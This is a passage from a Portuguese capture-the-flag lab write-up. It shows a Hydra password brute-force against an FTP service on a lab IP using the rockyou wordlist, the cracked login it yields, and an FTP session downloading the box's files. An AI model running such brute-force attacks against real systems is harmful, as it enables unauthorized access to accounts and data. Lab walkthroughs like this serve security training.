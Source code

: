### Efetuado brute force no FTP

- Identificado o usuário "chris", utilizado o mesmo com a wordlist "rockyou.txt", para fazer o brute force no FTP.

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.168.86

[21][ftp] host: 10.10.168.86   login: chris   password: crystal
```
- Identificado o login e a senha:
	- Login: chris
	- Senha: crystal

### Acessando o FTP

- Efetuado o acesso ao FTP do usuário "chris" e efetuado o download dos arquivos

```
ftp 10.10.168.86
Connected to 10.10.168.86.
220 (vsFTPd 3.0.3)
Name (10.10.168.86:kali): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pass
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,168,86,60,46).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
227 Entering Passive Mode (10,10,168,86,21,66).
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.00 secs (1.0835 MB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
227 Entering Passive Mode (10,10,168,86,160,137).
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
226 Transfer complete.
33143 bytes received in 0.54 secs (60.1954 kB/s)
ftp> get cutie.png
local: cutie.png remote: cutie.png
227 Entering Passive Mode (10,10,168,86,157,170).
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
226 Transfer complete.
34842 bytes received in 0.52 secs (65.7211 kB/s)
```
